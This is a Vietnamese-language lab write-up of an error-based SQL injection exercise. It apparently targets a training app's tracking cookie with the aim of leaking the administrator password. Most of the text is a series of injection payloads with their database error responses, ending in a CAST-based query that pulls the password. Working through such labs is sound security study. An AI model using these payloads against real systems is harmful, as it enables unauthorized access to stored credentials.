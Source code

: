 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection dựa trên lỗi hiển thị trong cookie theo dõi.
- Ứng dụng thực hiện truy vấn SQL chứa giá trị cookie.
- Kết quả truy vấn SQL không được trả về, nhưng lỗi được hiển thị.
- Cơ sở dữ liệu chứa bảng users với các cột username và password.

# Yêu cầu:
- Tìm cách để lộ mật khẩu của người dùng administrator.

# Solution:

- '

Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER''. Expected char

- '-- -> 200

- '' -> 200

- '||  ||'

- '|| (SELECT password FROM users WHERE username = 'administrator') ||'
  
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (SELECT password FROM users WHERE userna'. Expected  char
- Có vẻ như chỗ này bị giới hạn số lượng từ trong truy vấn

- '|| (CAST(SELECT password FROM users)) ||'

ERROR: syntax error at or near "SELECT"
  Position: 62

- '|| (CAST(SELECT password FROM users) AS int) ||'

Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'RvVJ6xRwjtKqdmER'|| (CAST(SELECT password FROM users) AS int'. Expected  char

- '|| (CAST(SELECT 1) AS int) ||'

ERROR: syntax error at or near "SELECT"
  Position: 62

- 'AND CAST((SELECT 1) AS int)--

ERROR: argument of AND must be type boolean, not type integer

- 'AND 1=CAST((SELECT 1) AS int)--

- 'AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--










